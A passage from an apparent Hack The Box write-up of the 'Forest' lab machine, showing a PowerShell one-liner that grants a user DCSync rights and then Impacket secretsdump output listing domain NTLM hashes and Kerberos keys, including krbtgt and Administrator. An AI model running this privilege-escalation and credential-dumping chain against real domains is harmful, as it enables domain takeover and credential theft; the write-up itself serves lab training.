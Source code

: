 They can be executed individually,or as a one-liner. 
Ive already added sh1n0bi to the "Exchange Windows Permissions" group so don't need that first line.

```
$pass = ConvertTo-SecureString -AsPlainText $Password -Force;$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass;Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'sh1n0bi' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```



<hr width="300" size="10">



<h3>Secretsdump + Psexec</h3>


Now we can use Impacket's `secretsdump.py` to get the Admin hashes.


```
root@kali:~/HTB/active/forest# python secretsdump.py sh1n0bi:password123@10.10.10.161 -just-dc
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


<--Snip-->

htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::                        
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::                   
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::                           
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::                           
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::                          
sh1n0bi:7601:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::                                  
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:dd807da60f5c01bd698ae7413454a727:::                                  
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::                                  
[*] Kerberos keys grabbed                                                                                          
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b                    
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58                                                    
krbtgt:des-cbc-md5:9dd5647a31518ca8                                                                                
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4                                                                                                               
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e                            
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e                                                        
```